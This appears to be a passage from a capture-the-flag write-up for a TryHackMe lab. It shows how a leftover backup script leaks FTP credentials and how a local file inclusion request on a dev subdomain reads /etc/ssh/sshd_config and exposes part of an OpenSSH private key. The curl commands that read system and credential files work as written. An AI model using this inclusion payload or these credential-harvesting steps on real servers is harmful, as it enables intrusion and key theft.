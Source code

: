 Then Checked for `script.old` and found the credentials for ftp.
```console
❯ curl http://team.thm/scripts/script.old
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

```

Logged in with given credentials to ftp and got a file `New_site.txt` 
```console
❯ cat New_site.txt
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

The file says that id_rsa can be found in dev dns.<br></br>
Ran sniper script with burpSuite and got  the `id_rsa` of dale in `/etc/ssh/sshd_config`
```console
❯ curl http://dev.team.thm/script.php\?page\=/etc/ssh/sshd_config

#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
#AddressFamily any
<----snip------->


#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
```